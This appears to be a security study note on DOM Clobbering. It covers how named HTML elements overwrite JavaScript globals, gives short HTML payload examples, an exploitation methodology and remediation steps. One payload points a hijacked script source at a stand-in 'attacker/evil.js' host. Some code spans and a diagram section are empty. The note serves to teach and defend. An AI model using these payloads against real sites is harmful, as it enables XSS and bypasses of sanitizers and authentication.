

# DOM Clobbering

## Introduction

DOM Clobbering is a **markup-only** injection technique: when an attacker can inject HTML but **not** script (e.g. an HTML sanitizer strips `<script>` and event handlers but allows `<a>`, `<form>`, `` with `id`/`name`), they abuse a legacy browser behavior where **named HTML elements become global/`document` properties**. By naming elements cleverly, the attacker "clobbers" a variable the JavaScript relies on, turning a benign-looking page into XSS or logic bypass — no JS injection required. It's the go-to bypass when CSP/sanitization blocks normal XSS.

## Core Mechanics

Browsers expose elements with an `id` or `name` as properties:
- `<a id="x">` ⇒ `window.x` (and often `document.x`) references that element.
- Two elements with the same `id`/`name` ⇒ an **HTMLCollection**, enabling nested access: `<a id="x"><a id="x" name="y">` ⇒ `window.x.y`.
- `<form id="x"><input name="y">` ⇒ `x.y` is the input (and `x.y.value` becomes attacker-influenced via `value`).
- `document.cookie`, `document.body`-style names, and `window.<name>` of `<iframe name=...>` (whose `src` can leak/replace) are common targets.

If app code does `var config = window.config || {}` or `if (window.someFlag)` or `document.getElementById(x).src = userVar`, clobbering `config`/`someFlag`/the lookup result hijacks the logic.

## Mermaid: Clobbering Flow



## Vulnerability 1: Clobbering a config/flag object
```html
<!-- app: if (!window.CONFIG) loadDefaults(); else use(window.CONFIG.url) -->
<a id="CONFIG"><a id="CONFIG" name="url" href="https://attacker/evil.js"></a>
<!-- window.CONFIG.url now = the href → fed into a script src -->
```

## Vulnerability 2: Clobbering a DOM lookup → XSS
```html
<!-- app: var el = document.getElementById('logo'); document.write(el.innerHTML) -->
<form id="logo"><input name="innerHTML" value=""></form>
```

## Vulnerability 3: Clobbering `document.*` helpers
Names like `` can clobber `document.getElementById`, breaking or redirecting later lookups; `<form name="cookie">` interferes with `document.cookie` reads in some code paths.

## Methodology
1. Find an HTML-injection sink that survives sanitization (DOMPurify with default config historically allowed clobbering vectors via `id`/`name`).
2. Identify JS reading globals/`document` props without `Object`/`typeof` guards (grep client JS for `window.`, `document.getElementById`, `|| {}`).
3. Craft `id`/`name`/nested `HTMLCollection` markup to set the exact property/value the sink consumes.
4. Chain to an execution sink (`innerHTML`, `src`, `eval`, `location`) → XSS, or to a logic/auth flag.

## Remediation
1. **Don't trust named DOM access** — validate with `typeof x === 'expected'`, use `Object.freeze`/closures, avoid `window.X || {}` for security-relevant config.
2. Sanitize with a config that **forbids `id` and `name`** attributes (DOMPurify `SANITIZE_NAMED_PROPS` / explicitly strip them); prefer allowlists.
3. Reference elements via `querySelector` on a known-trusted root, not global named lookups; serve a strict **CSP** as defense-in-depth (limits the eventual script sink).

## Chaining Opportunities
- Primary use: **sanitizer/CSP bypass to XSS** when script injection is blocked — pairs with XSS (folder B-07) sinks.
- Logic/flag clobbering → auth or feature bypass (Business Logic (folder I-25).

## Related Notes
- [[20 - Postmessage Vulnerabilities]], [[29 - Client-Side Path Traversal]] (this folder); markup-injection cousin of mutation XSS.
- XSS sinks: B-07 module; sanitization context: Information Disclosure (folder I-33) is unrelated — see B-07.

## Tools
DOMPurify (test config), browser devtools, `hackability` probes, BurpSuite DOM Invader.
